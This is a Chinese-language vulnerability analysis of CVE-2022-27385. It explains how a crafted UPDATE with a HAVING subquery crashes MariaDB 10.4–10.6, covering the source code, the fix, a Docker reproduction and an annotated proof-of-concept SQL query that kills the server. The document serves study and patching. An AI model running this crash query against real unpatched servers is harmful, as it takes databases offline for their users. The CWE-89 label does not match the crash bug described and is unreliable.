



# CVE-2022-27385 CWE-89 MariaDB DoS via Segmentation Fault

## 漏洞背景

- **MariaDB ：**一款开源关系型数据库管理系统，由 MySQL 的创始人开发，与 MySQL 高度兼容。它具有高性能、高安全性、易于使用等特点，支持多种存储引擎，可保障数据的可靠存储与高效读写。同时，MariaDB 还具备强大的查询优化能力，能增强数据库性能，广泛应用于多种行业领域，为数据存储和管理提供有力支持。
- **CWE-89**（SQL注入）是指应用程序在构造SQL语句时，没有对用户输入的数据进行正确的验证或转义，导致攻击者能够插入恶意SQL代码，进而执行未授权的数据库操作。此类漏洞可能导致数据泄露、篡改、删除，甚至完全控制数据库，是最常见且危害极大的安全漏洞之一。


## 漏洞原理

MariaDB 在处理带有特定 HAVING 子句的子查询时，没有正确判断 SELECT 字段列表是否为空，错误地初始化了查询解析上下文（context）。当攻击者通过精心构造的 SQL（如 `UPDATE t1 SET v1 = (SELECT v1 + 16 FROM t1 HAVING v1 + 57)`）让字段列表为空时，后续处理流程会对非法或空字段进行访问，最终导致数据库进程崩溃，实现拒绝服务攻击（DoS）。

## 漏洞定位

分析 MariaDB 10.6.3 源码：

在 sql_select.cc 文件，第 4899 行，`mysql_select`函数负责处理和执行 SELECT 相关的语句，也是很多复杂 SQL（如子查询、联合查询、视图、派生表等）的底层实现基础。

其中第 4908 行，标记“需要对当前 SELECT 字段列表做解析、绑定”，指导解析流程如何处理字段，但是这里**无条件地**把 `resolve_in_select_list` 设为 `TRUE`，也就是说，不管传入的 `fields`（也就是 SELECT 语句的字段列表）是什么情况，都会直接做后续解析，最终导致错误。

```cpp
bool
mysql_select(THD *thd, TABLE_LIST *tables, List<Item> &fields, COND *conds,
             uint og_num, ORDER *order, ORDER *group, Item *having,
             ORDER *proc_param, ulonglong select_options, select_result *result,
             SELECT_LEX_UNIT *unit, SELECT_LEX *select_lex)
{
  int err= 0;
  bool free_join= 1;
  DBUG_ENTER("mysql_select");

/***** 4908 行 ************** 漏洞点 *********************/
  select_lex->context.resolve_in_select_list= TRUE;
  JOIN *join;
  if (select_lex->join != 0)
  {
    join= select_lex->join;
    /*
      is it single SELECT in derived table, called in derived table
      creation
    */
    if (select_lex->get_linkage() != DERIVED_TABLE_TYPE ||
	(select_options & SELECT_DESCRIBE))
    {
      if (select_lex->get_linkage() != GLOBAL_OPTIONS_TYPE)
      {
        /*
          Original join tabs might be overwritten at first
          subselect execution. So we need to restore them.
        */
        Item_subselect *subselect= select_lex->master_unit()->item;
        if (subselect && subselect->is_uncacheable() && join->reinit())
          DBUG_RETURN(TRUE);
      }
      else
      {
        if ((err= join->prepare(tables, conds, og_num, order, false, group,
                                having, proc_param, select_lex, unit)))
	{
	  goto err;
	}
      }
    }
    free_join= 0;
    join->select_options= select_options;
  }
  else
  {
    if (thd->lex->describe)
      select_options|= SELECT_DESCRIBE;

    /*
      When in EXPLAIN, delay deleting the joins so that they are still
      available when we're producing EXPLAIN EXTENDED warning text.
    */
    if (select_options & SELECT_DESCRIBE)
      free_join= 0;

    if (!(join= new (thd->mem_root) JOIN(thd, fields, select_options, result)))
	DBUG_RETURN(TRUE);
    THD_STAGE_INFO(thd, stage_init);
    thd->lex->used_tables=0;
    if ((err= join->prepare(tables, conds, og_num, order, false, group, having,
                            proc_param, select_lex, unit)))
    {
      goto err;
    }
  }

  /* Look for a table owned by an engine with the select_handler interface */
  select_lex->pushdown_select= find_select_handler(thd, select_lex);

  if ((err= join->optimize()))
  {
    goto err;					// 1
  }

  if (thd->lex->describe & DESCRIBE_EXTENDED)
  {
    join->conds_history= join->conds;
    join->having_history= (join->having?join->having:join->tmp_having);
  }

  if (unlikely(thd->is_error()))
    goto err;

  join->exec();

  if (thd->lex->describe & DESCRIBE_EXTENDED)
  {
    select_lex->where= join->conds_history;
    select_lex->having= join->having_history;
  }

err:

  if (select_lex->pushdown_select)
  {
    delete select_lex->pushdown_select;
    select_lex->pushdown_select= NULL;
  }

  if (free_join)
  {
    THD_STAGE_INFO(thd, stage_end);
    err|= (int)(select_lex->cleanup());
    DBUG_RETURN(err || thd->is_error());
  }
  DBUG_RETURN(join->error ? join->error: err);
}
```

## 漏洞修复


新增条件，确保仅当 `fields` 字段列表非空时才初始化名称解析上下文。这样，即使子查询的 `SELECT` 字段列表为空，也不会触发后续错误的上下文引用，从而防止崩溃。

```cpp
if (!fields.is_empty())
    select_lex->context.resolve_in_select_list = true;
```

## 影响范围


**受影响的版本：** MariaDB：

- 10.4.0 至 10.4.21
- 10.5.0 至 10.5.12
- 10.6.0 至 10.6.4

**影响组件**：used_tables_and_const_cache::used_tables_and_const_cache_join

## 环境搭建

启动 Docker 环境，MariaDB 版本为 10.6.3，管理员用户为 root，密码为 12345，存在一个数据库 test_db，开放端口为 3306，容器中存在 PoC 文件 CVE-2022-27385-PoC.sql 。

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## 漏洞复现

1、进入容器命令行

```bash
docker exec -it mariadb-10.6.3 bash
```

2、使用 root 用户登录并连接数据库 test_db，密码为 12345

```sql
mariadb -u root -p test_db
```

3、执行 PoC 文件 CVE-2022-27385-PoC.sql，可以看到遇到错误且容器自动关闭

```sql
source CVE-2022-27385-PoC.sql
```



4、查看容器 MariaDB 崩溃日志，可以看到`[ERROR] mysqld got signal 11 ;`，是段错误触发的致命错误。

```bash
docker logs mariadb-10.6.3
```



## POC分析

```sql
CREATE TABLE t1 AS SELECT NULL AS v1;

-- 对表 t1 进行更新
UPDATE t1 
	SET v1 = 
	    -- 此时 t1 只有一行，v1=NULL，结果是 NULL+16，依然是 NULL
	    -- 子查询返回空结果集（没有值）
		(SELECT v1 + 16 FROM t1 
            -- HAVING 通常配合 GROUP BY 使用，这里没有 GROUP BY，实际作用在全表
            -- v1 + 57 由于 v1 是 NULL，结果也是 NULL，HAVING NULL 判定为“假”
            -- 导致整个查询没有任何行返回
         	HAVING v1 + 57);
```

`UPDATE` 操作中的子查询涉及到内部 SELECT 的 context 初始化（代码中的 `select_lex->context.resolve_in_select_list= TRUE;`）。子查询由于 HAVING 条件（而且无 GROUP BY）过滤掉所有行，执行过程中**可能出现字段列表为空或结构未初始化**的异常情形。因为未做非空判断，context 被错误设置，**后续代码基于错误 context 进行逻辑处理时出错**，最终导致崩溃。

## 参考链接


[NVD - CVE-2022-27385](https://nvd.nist.gov/vuln/detail/CVE-2022-27385)

[[MDEV-26415\] MariaDB server crash in Used_tables_and_const_cache::used_tables_and_const_cache_join - Jira](https://jira.mariadb.org/browse/MDEV-26415)

[[MDEV-22464\] Server crash on UPDATE with nested subquery - Jira](https://jira.mariadb.org/browse/MDEV-22464)

[MDEV-22464 Server crash on UPDATE with nested subquery · MariaDB/server@ff77a09](https://github.com/MariaDB/server/commit/ff77a09bda884fe6bf3917eb29b9d3a2f53f919b#diff-16fd8e507582e428d933bc7ee3984394eab544410785220b536ab964d4e9e084)
